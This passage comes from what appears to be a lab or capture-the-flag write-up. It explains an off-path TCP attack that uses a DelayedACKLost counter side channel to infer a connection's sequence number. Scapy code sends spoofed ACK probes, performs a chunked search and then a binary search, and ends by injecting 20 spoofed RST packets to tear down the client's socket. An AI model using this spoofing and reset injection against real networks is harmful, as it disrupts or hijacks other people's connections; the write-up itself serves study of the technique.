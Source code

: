 
Unfortunately this solution is not stable. The problem seems to be that depending on the current real sequence number that sometime the counter won't increase although the spoofed sequence number is smaller. It seemed whenever you are close to a sequence number wrap the TCP stack does some magic here while calculating out-of-sequence ACKs.

Therefore I added a first step that does not begin in the middle (`2**31`) like the divide and conquer would do but to just start with a sequence of 0 and go up in `2**24` chunks until we find the sequence number bounds that way. Also this part of the code finds the first sequence number chunk where the `DelayedACKLost` counter first increases (and thus we are safe from the counter wrap magic now):

```Python
x,b = False,False
for seq in range(int(2**32/2**24)):
    # Send a packet for the IPs in question with an "arbitrary" sequence number.
    send(IP(src="172.21.0.2",dst="172.21.0.3")/TCP(sport=21587,dport=7775,flags='A',seq=seq*2**24)/'A',verbose=False)
    # Get the DelayedACKLost counter from the client container.
    new_dal = get_client_netstat_delayedacklost()
    print("[-] Sent fake probe packet from server to client with sequence {:10}. DelayedACKLost counter on client: {:3}".format(seq*2**24,new_dal))
    # If the counter increased the sequence number is lower than the current one.
    #   BUT: If you are too close to a counter wrap there seems to be some magic
    #        therefore only break out of this loop if the DelayedACKLost counter
    #        at least increased once (x = True)
    if new_dal > dal:
        x = True
        dal = new_dal
    else:
        if x == True:
            print("[!] DelayedACKLost counter did not increase.")
            end = seq
            b = True
    if b == True:
        break
```

Using this approach we can then start to search the real sequence number using devide and conquer in a range of `2**24` only:

```Python
# Get the approximate sequence number
seqno = binary_search_recursive((seq-1)*2**24,seq*2**24)
print("[+] Sequence number approximately: {}".format(seqno))
```

In fact this is not an approximate sequence number but either the correct sequence number (or the number before the correct sequence number). One detail here is: sending an ACK for the current sequence number and for the sequence number before (seq-1) will not be distinguishable from the `DelayedACKLost` counter. So just to be sure I will be sending 20 RST packets (for the next 20 sequences):

```Python
for i in range(20):
    # The matching RST packet makes the client break out of his loop and close the socket.
    send(IP(src="172.21.0.2",dst="172.21.0.3")/TCP(sport=21587,dport=7775,flags='R',seq=seqno+i),verbose=False)
```
